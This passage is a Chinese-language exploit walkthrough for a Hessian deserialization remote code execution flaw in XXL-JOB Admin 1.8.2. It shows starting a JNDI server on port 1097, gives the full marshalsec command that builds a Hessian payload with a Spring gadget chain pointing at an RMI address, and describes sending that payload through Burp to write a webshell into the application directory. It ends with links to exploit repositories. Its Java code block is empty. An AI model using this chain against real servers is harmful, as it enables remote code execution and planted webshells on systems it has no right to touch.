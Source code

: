 ```java

```

## 利用过程

开启我们的`JndiServer`，监听1097端口

通过marshalsec生成`hessian`POC，并通过`burpsuit`的`Paste from file`功能将该二进制文件拷贝到`Request`的Body中：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringAbstractBeanFactoryPointcutAdvisor rmi://127.0.0.1:1097/Object > marshalsec.hessian.bin
```

发送我们的EXP即可成功在当前应用目录下写入webshell

![](Attack_Xxl-Job-Admin1.8.2/send_exploit.png)

Reference:

https://github.com/OneSourceCat/XxlJob-Hessian-RCE

https://www.mi1k7ea.com/2021/04/22/XXL-JOB-Hessian2%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/

https://github.com/mbechler/marshalsec

https://xz.aliyun.com/t/3787